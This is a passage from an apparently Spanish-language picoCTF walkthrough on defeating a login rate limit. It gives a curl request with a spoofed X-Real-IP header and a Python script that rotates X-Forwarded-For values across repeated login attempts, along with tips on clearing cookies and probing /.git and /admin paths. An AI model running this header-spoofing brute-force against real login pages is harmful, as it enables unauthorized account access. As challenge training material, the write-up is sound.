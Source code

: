     
    `curl -X POST https://HOST/login \   -H "Content-Type: application/json" \   -H "X-Real-IP: 8.8.8.8" \   -d '{"email":"ctf-player@picoctf.org","password":"badpass"}' -i`
    
4. **Si la app usa JSON o parámetros distintos**
    
    - Asegúrate de replicar exactamente la petición real (headers `Content-Type`, cookies). Usa Burp Repeater/Intercept para ver y reproducir la petición tal cual y añadir la cabecera spoofeada.
        
5. **Rotación automática de cabeceras (script Python)**
    
    - Script rápido que intenta login variando `X-Forwarded-For` hasta conseguir acceso o hasta agotar intentos:
        
    
    `# rotate_headers.py (ejemplo) import requests, random  url = "https://HOST/login" for i in range(1,300):     ip = f"172.16.{random.randint(0,255)}.{random.randint(1,254)}"     headers = {         "Content-Type":"application/json",         "X-Forwarded-For": ip,         "User-Agent": "curl/7.XX"     }     payload = {"email":"ctf-player@picoctf.org","password":"badpass"}     r = requests.post(url, json=payload, headers=headers, allow_redirects=False)     print(i, ip, r.status_code)     if r.status_code == 200 or "Welcome" in r.text or "flag" in r.text:         print("Posible acceso con", ip)         print(r.text)         break`
    
    - Ajusta detección de éxito (200, redirect, contenido con `secret`/`flag`).
        
6. **Si el rate-limit también usa cookies / session**
    
    - Limpia cookies entre intentos (`--cookie-jar / --cookie` en curl) o usa cabeceras `Cookie:` diferentes.
        
    - También prueba rotar `User-Agent` o `Referer` si el bloqueo es por combinación.
        
7. **Si nada de lo anterior funciona**
    
    - Revisa si el servicio valida la cabecera comparándola con la IP TCP real (ej. use de `remote_addr`). En ese caso el spoof no funcionará y hay que buscar otra debilidad: credenciales en JS, endpoints de debug, o una ruta de admin. Inspecciona código cliente y endpoints expuestos (`/.git`, `/admin`, `/debug`).
        
8. **Acceso y extracción de secreto**
    
    - Una vez logues con éxito, navega a la sección privada y busca el secreto/flag (área `profile`, `admin`, `/secret.txt`, etc.). Copia la flag.
        

---

### **Notas adicionales**

- Prueba primero con una IP no real (privada) para no generar ruido público; si la instancia valida formato, cualquier valor sirve para la prueba.
    
- Si el servidor está detrás de un WAF o CDN puede filtrar/ignorar cabeceras; en ese caso el vector falla.
    
- Respeta límites y ética: aplica esto solo a la instancia del reto o sistemas autorizados.
    
- Usa Burp Suite Repeater/Intruder para iterar rápido y ver respuestas completas.
    
- Detecta éxito por código HTTP, redirección, o por que la respuesta incluya palabras como `welcome`, `secret`, `flag`.
    
